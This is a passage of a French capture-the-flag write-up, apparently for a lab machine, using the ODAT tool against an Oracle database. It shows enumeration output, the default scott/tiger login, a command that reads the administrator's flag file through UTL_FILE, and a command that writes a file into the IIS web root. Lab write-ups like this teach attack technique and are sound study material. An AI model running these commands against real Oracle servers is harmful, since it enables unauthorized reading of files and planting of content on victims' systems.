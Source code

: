 ```plain
[2.11] External table to read files ?
[-] KO
[2.12] External table to execute system commands ?
[-] KO
[2.13] Oradbg ?
[-] KO
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
[-] KO
[2.16] Gain elevated access (privilege escalation)?
[+] The current user has already DBA role. It does not need to exploit a privilege escalation!
[2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
[-] KO
[2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
[+] Impossible to know if the database is vulnreable to the CVE-2012-3137. You need to run this as root because it needs to sniff authentications to the database
```

Dès lors il suffit de croiser ces informations avec les descriptions vues plus tôt pour par exemple pouvoir télécharger un fichier du système.  

```plain
LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2/ ./odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger  --getFile 'c:/Users/Administrator/Desktop' root.txt /tmp/root.txt

[1] (10.10.10.82:1521): Read the root.txt file stored in c:/Users/Administrator/Desktop on the 10.10.10.82 server
[+] Data stored in the root.txt file sored in c:/Users/Administrator/Desktop (copied in /tmp/root.txt locally):
cd39ea0af657a495e33bc59c7836faf6
```

On dispose déjà du flag root :)  

Dégringolade de privilèges
--------------------------

C'est bien beau mais ironiquement il nous manque le *user.txt* et on ne connait pas le nom de l'utilisateur non privilégié.  

Il est temps de voir si on peut utiliser ODAT pour écrire un fichier sur la racine web (puisqu'un serveur IIS tourne) :  

```plain
LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2/ ./odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger  --putFile 'c:/inetpub/wwwroot' test_xxx.txt test_xxx.txt

[1] (10.10.10.82:1521): Put the test_xxx.txt local file in the c:/inetpub/wwwroot folder like test_xxx.txt on the 10.10.10.82 server
[+] The test_xxx.txt file was created on the c:/inetpub/wwwroot directory on the 10.10.10.82 server like the test_xxx.txt file
```

Et quand on pointe notre browser sur http://10.10.10.82/test\_xxx.txt... bingo il est présent !  
